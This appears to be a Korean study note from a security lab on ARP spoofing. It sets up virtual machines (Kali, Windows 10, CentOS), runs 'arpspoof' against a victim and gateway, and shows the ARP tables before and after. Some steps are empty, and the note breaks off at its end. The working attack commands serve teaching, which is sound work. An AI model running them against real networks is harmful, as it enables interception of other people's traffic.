






# ARP Spoofing

## 개요

- MAC Address를 속여 LAN에서의 통신 흐름을 왜곡시키는 기법을 말한다.
- ARP 테이블이 바뀌면 경고를 보내는 툴을 통해 어느 정도는 예방할 수 있지만 근본적으로 TCP/IP 프로토콜 자체의 문제이기 때문에 ARP Spoofing에 대한 보안 대책은 없다.

### ARP 테이블
- IP주소와 해당 주소에 대한 MAC Address 목록을 말한다.
- 'cmd'창에서 'arp -a' 를 통해서 확인할 수 있다.

## 실습 1. 기본 실습 (IP를 이용한 공격)
### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.2
- Victim(Windows 10)    192.168.10.130 / c / 192.168.10.2 / 192.168.10.2
``` 

```
[samadal@kali ~]$ sudo ip link show eth0
[sudo] password for samadal:
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    link/ether 00:0c:29:b2:04:58 brd ff:ff:ff:ff:ff:ff

[samadal@kali ~]$ sudo arp -a
_gateway (192.168.10.2) at 00:50:56:e0:28:a3 [ether] on eth0
? (192.168.10.1) at 00:50:56:c0:00:08 [ether] on eth0

[samadal@kali ~]$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.10.134  netmask 255.255.255.0  broadcast 192.168.10.255
        inet6 fe80::20c:29ff:feb2:458  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b2:04:58  txqueuelen 1000  (Ethernet)
        RX packets 186  bytes 29318 (28.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 149  bytes 20777 (20.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3

```  
## ARP Spoofing을 이용한 MAC Address 변경

```
sudo dsniff
```
```
sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
```
- 명령어 실행 전
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3
```

- 명령어 실행 후
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:0c:29:b2:04:58
```


## 결론
- 공격을 하고 있는 동안만 MAC Address가 변경된다.

## 실습 2. 응용 실습 (도메인을 이용한 공격)

### 개요
- CentOS에서 DNS서버와 Web 서버를 구축한다.
- Kali에서 ARP Spoofing 공격을 시도한다.
- Window 10에서 사이트 출력을 확인하고 변조된 것을 확인한다.

### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.132
- Victim(CentOS)        192.168.10.132 / c / 192.168.10.2 / 192.168.10.132
- 확인(Windows 10)       192.168.10.130 / c / 192.168.10.2 / 192.168.10.132
``` 

### Step 1. 3개의 시스템에 IP를 설정

### Step 2. CentOS에서 'Kali'에 호스트 부여

### Step 3. windows 10에서 네임서버 조회를 하고 'MAC Address'로 확인한다.



### Step 4. Windows 10에서 '사이트(www.gusiya.com)'를 출력한다.




### Step 5. 'kali'에서 시스템 재구성

- Apache2 패키지 설치, 방화벽 추가 후 활성화
- 사이트 출력 <br>


### Step 6. 'Kali' 에서 'DNS Spoofing'으로 두 시스템에 공격을 실행한다.
```
sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
```
- windows 10<br>



→ 모두 정상적으로 출력이 된다.<br>

→ 그 이유는 **'windows 10'** 단지 사이트를 출력만 하고 있기 때문에 실제 공격을 받았지만 사이트는 아무런 영향을 받지 않는다.<br>

```
sudo arpspoof -i eth0 -t 192.168.10.132 192.168.10.2
```
 <br>
이것도 변화가 없다. <br>

 <br>
```
현재 arp -a 출력에서 확인된 사항
192.168.10.2 (gateway) 와 192.168.10.134 (attack.gusiya.com)이 동일한 MAC 주소 (00:0c:29:b2:04:58) 를 가짐.

이는 일반적으로 ARP 스푸핑(위조) 또는 ARP 포이즈닝 공격의 징후입니다.
```
변화
